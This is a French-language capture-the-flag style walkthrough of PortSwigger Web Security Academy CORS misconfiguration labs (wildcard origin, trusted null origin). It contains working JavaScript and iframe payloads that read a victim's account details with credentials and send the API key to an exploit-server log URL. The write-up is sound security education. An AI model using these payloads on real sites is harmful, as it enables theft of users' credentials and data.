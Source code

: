 Cas le plus simple d'un site web mal configuré et acceptant toutes les origines.

Avec le chemin "/my-account?id=wiener" on peut voir notre propre clé API

En regardant l'historique sur Burp, on voit que cette requête est un "**GET /accountDetails**" et que sa réponse contient le header suivant : 

>Access-Control-Allow-Credentials: true

Cela signifie que les requêtes CORS venant du domaine source (l'origine) spécifié dans l'en-tête **Origin** peuvent inclure des informations d'identification.

On peut donc reprendre le bout de code Javascript donné dans l'explication précédant le lab et l'adapter à ce cas : 

    <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a60001c04ac505180dc269700f0000b.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='https://exploit-0a7500b9040050d5808625b8012100c7.exploit-server.net/log?key='+this.responseText;
    };
    </script>
    
Ce code doit être mis dans le serveur d'exploitation pour que la victime clique dessus.

### CORS vulnerability with trusted null origin

Pour ce cas, le site est mieux configuré mais a whitelisté l'origine "null", ce qui peut être utile pendant une phase de développement en local par exemple.

En incluant notre script dans une iframe, on lui donnera une origine "null" et on pourra donc contourner cette configuration.


    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','0a340009031740fb824ab59c008c00f4.web-security-academy.net/accountDetails',true);
        req.withCredentials = true;
        req.send();
        function reqListener() {
            location='https://exploit-0a0600bd032540598200b4a0013500e5.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
        };
    </script>"></iframe>

### CORS vulnerability with trusted insecure protocols

Cas de figure d'un site bien configuré mais qui accepte en origine un autre site vulnérable et joignable en HTTP. 
